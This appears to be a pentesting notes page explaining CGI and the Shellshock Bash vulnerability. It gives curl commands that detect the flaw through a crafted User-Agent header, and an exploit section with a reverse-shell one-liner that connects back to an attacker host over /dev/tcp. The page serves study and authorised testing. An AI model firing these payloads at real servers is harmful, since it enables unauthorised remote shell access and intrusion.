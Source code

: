 ```yaml
---
menu: CGI
title: CGI - Web Applications Pentesting
---
```


# Common Gateway Interface

Common Gateway Interface (CGI) is an interface specification for web servers to execute command-line interface (CLI) programs. These programs also known as CGI scripts or simply CGIs, are commonly executed at the time a request is made and return dynamically generated HTML content.

Most servers expect CGI scripts to reside in a special directory, usually called `cgi-bin`, to handle the requests correctly and execute the program instead of returning the file content.  [^oreilly-cgi]

## Shellshock

Shellshock ([CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)) is an Arbitrary Code Execution (ACE) vulnerability that affects Linux and Unix command-line shell, aka the GNU Bourne Again Shell.

GNU Bourne Again Shell, or Bash, is an interpreter that allows users to send commands on Unix and Linux systems, typically by connecting over SSH or Telnet but it can also operate as a parser for CGI scripts.

{{<hint info>}}
In addition to CGI-based web servers, it also affects OpenSSH servers, DHCP clients, Qmail servers and restricted shells of the IBM Hardware Management Console (IBM HMC)
{{</hint>}}

The vulnerability occurs when the variables sent to the server, are passed and interpreted by Bash. This variable involves a specially crafted environment variable containing an exported function definition, followed by arbitrary commands. Bash incorrectly executes the trailing commands when it imports the function.


```
Environment variable with
function definition                          Expected command
         +                                          +
         |                                          |
+--------+--------+ +----------------+ +------------+--------------+
| env x='() { :;};| |echo vulnerable'| |bash -c "echo Real command"|
+-----------------+ +-------+--------+ +---------------------------+
                            |
                            +
            Arbitrary command executed by Bash
```

### Test

#### Reflected

```sh
curl -fs -H "user-agent: () { :; }; echo; echo 'vulnerable'" http://{{< param "war.rhost" >}}/cgi-bin/vulnerable | grep vulnerable
```

#### Blind

```sh
curl -fs -H "user-agent: () { :; }; /bin/bash -c 'sleep 5'" http://{{< param "war.rhost" >}}/cgi-bin/vulnerable
```

{{<details "Parameters">}}
- `-f`: fail silently on HTTP errors.
- `-s`: silent mode.
- `-H`: pass custom header(s) to server.
{{</details>}}

### Exploit

```sh
curl -fs -H "user-agent: () { :; }; /bin/bash -i >& /dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}} 0>&1" http://{{< param "war.rhost" >}}/cgi-bin/vulnerable
```

## Further Reading

- [Inside Shellshock: How hackers are using it to exploit systems](https://blog.cloudflare.com/inside-shellshock/)
- [Wikipedia - Shellshock (software bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

[^oreilly-cgi]: Gundavaram, Shishir. “The Common Gateway Interface (CGI).” O’Reilly Media - Technology and Business Training, O’Reilly & Associates, Inc., https://www.oreilly.com/openbook/cgi/ch01_01.html.
